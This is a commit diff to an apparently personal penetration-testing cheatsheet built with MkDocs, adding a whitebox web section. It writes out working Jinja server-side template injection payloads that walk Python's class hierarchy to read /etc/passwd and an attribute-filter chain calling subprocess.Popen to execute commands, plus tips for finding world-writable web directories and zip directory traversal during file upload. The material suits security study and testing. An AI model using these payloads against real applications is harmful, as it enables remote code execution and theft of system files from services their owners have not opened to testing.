

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Web/Whitebox.md, in a window 1280 px wide and 1400 px high, scrolled down 1627 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2086 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update Whitebox.md

````diff
--- a/docs/Web/Whitebox.md
+++ b/docs/Web/Whitebox.md
@@ -88,3 +88,53 @@ grep -Ri "XmlDocument()" *
 grep -Ri "DeSerializeHashtable" *
 grep -Ri "XmlUtils.DeSerializeHashtable" *
 ```
+
+## SSTI
+* Detailed SSTI meaning [here](./SSTI.html)
+* Test
+    ```python
+    {{7*7}}
+    ```
+* Jinja Payload
+    * Python2
+        ```python
+        {{ ''.__class__.__mro__[2].__subclasses()[40]('/etc/passwd').read() }}
+        ```
+    * Python3
+        ```python
+        {{ ''.__class__.__mro__[1].__subclasses()[40]('/etc/passwd').read() }}
+        ```
+    * the number `[420]` may change every instance. This is the subprocess.Popen for RCE
+        ```python
+        {% set string = "ssti" %}
+        {% set class = "__class__" %}
+        {% set mro = "__mro__" %}
+        {% set subclasses = "__subclasses__" %}
+        {% set mro_r = string|attr(class)|attr(mro) %}
+        {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
+        {{ subclasses_r[420](["/usr/bin/touch","/tmp/poc.txt"]) }}
+        ```
+## File Upload
+* Whitebox
+    * Try to upload a file and see where it is uploaded on the file system by using `find` or `grep`
+    * Find writable directories
+        ```bash
+        find /var/www/html/ -type d -perm -o+w
+        ```
+* File upload via Zip?
+    * Try directory traversal to `/tmp`
+    * find writable directories on the web root
+    * PHP
+        * make use of `display_errors` in the PHP settings
+
+## How to track a possible vulnerable function resides?
+* can start from top to bottom. From controllers, `grep` for the <something>.phtml or <something>.html. It might give some idea on where it is
+
+## Debugging
+* Python SMTP Server[^1]
+
+
+
+
+
+[^1]: [Python3 SMTPD package](../Infrastructure_Setup/Simple_Python_Go_Packages.html#python3-smtpd)
````
